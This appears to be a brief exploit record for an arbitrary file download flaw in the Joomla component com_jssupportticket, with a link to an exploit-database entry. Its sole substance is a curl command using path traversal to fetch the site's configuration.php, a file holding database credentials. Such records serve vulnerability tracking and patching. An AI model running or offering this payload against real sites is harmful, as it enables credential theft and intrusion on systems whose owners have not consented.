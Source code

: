 ## Joomla! component com_jssupportticket - Arbitrary File Download
https://www.exploitalert.com/view-details.html?id=33803
```
curl -X GET -i "http://localhost/index.php?option=com_jssupportticket&c=ticket&task=downloadbyname&id=0&name=../../../configuration.php"
```
